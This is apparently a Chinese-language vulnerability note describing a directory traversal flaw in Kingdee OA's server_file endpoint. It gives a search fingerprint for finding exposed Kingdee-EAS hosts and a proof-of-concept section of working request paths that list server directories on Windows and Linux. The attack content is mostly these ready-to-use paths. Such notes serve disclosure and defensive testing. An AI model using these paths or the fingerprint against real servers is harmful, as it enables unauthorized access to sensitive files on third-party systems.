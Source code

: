 # 金蝶OA server_file 目录遍历漏洞

## 漏洞描述

金蝶OA server_file 存在目录遍历漏洞，攻击者通过目录遍历可以获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>金蝶OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Kingdee-EAS"</a-checkbox></br>

## 漏洞复现

登录界面为



![img](../../../.vuepress/public/img/image-20210603132948792.png)

漏洞POC

```plain
/appmonitor/protected/selector/server_file/files?folder=/&suffix=
Windows服务器

appmonitor/protected/selector/server_file/files?folder=C://&suffix=

Linux服务器
appmonitor/protected/selector/server_file/files?folder=/&suffix=
```



![img](../../../.vuepress/public/img/image-20210603133136331.png)